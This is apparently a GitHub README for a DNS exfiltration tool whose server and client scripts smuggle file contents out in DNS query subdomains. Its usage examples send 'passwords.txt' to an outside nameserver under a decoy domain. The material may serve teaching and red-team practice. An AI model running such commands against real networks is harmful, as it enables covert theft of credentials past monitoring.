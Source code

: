 ## DNS-Exfiltration

### Overview

This project contains two scripts: `server.py` and `client.py`. These scripts are used to demonstrate DNS exfiltration, where data is covertly sent from a client to a server using DNS queries.

### server.py

The `server.py` script sets up a DNS server that listens for DNS queries. It extracts data from the subdomain of incoming DNS queries, decodes it, and saves it to a specified file.

### client.py

The `client.py` script is used to send data to the DNS server by encoding the data in the subdomain of DNS queries. 

### Prerequisites

- Python 3.x
- dnslib
- colorama

You can install the required Python packages using pip:

### Usage

#### Running the DNS Server

1. Run the `server.py` script with the `-o` or `--output` option to specify the output file where the exfiltrated data will be saved.

```sh
python3 ./server.py -o output.txt
``` 
Pro Server Options
```sh
python3 ./server.py -o output.txt -p 53
```

The server will start listening on port `53` for incoming DNS queries.

#### Running the DNS Client

1. Use the `client.py` script to send data to the DNS server. This script will encode the data and send it in the subdomain of DNS queries to the server.

Here's an example of how to run the client script:

```sh
python3 ./client.py -d "google.com" -f "passwords.txt"
```

Pro Client Options
```sh
python3 client.py -d legitimate-domain.com -f passwords.txt -p 53 --nameserver 10.10.166.126
```

In this example, `legitimate-domain.com` is the domain to which the DNS queries will be sent, and `passwords` is the file containing the data to be exfiltrated.

![](https://i.imgur.com/f2D0Z7p.png)

### Note

This project is for educational purposes only. Unauthorized data exfiltration is illegal and unethical. Always obtain proper authorization before testing any security mechanism.